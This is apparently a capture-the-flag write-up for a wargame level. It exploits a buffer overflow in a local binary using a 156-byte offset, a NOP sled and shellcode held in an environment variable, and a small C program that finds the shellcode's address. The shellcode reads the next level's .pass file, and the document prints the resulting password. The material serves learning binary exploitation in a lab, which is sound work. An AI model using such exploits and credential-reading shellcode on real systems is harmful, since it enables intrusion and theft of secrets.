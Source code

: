 # Level04

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a buffer overflow to inject a shellcode as asked by the program. Thanks to our analysis we know that the offset is **156** bytes and using the following shellcode we'll get our next password!

```shell
  export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'")
```

> This shellcode was found [here](http://shell-storm.org/shellcode/files/shellcode-73.php) and basically read a file and output its content to standard input.

Last step would be to get the actual address of that shellcode in our environment, using the following small program.

```C
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Finally piece everything together and you're done!

```shell
  $> python -c "print '\x90' * 156 + '\xXX\xXX\xXX\xXX'[::-1]" | ./level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
```

> `\xXX\xXX\xXX\xXX` is the address of the shellcode.

So next user credentials pair is `level05:3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`.

Check [here](../source.c) for reproduction source-code of this binary.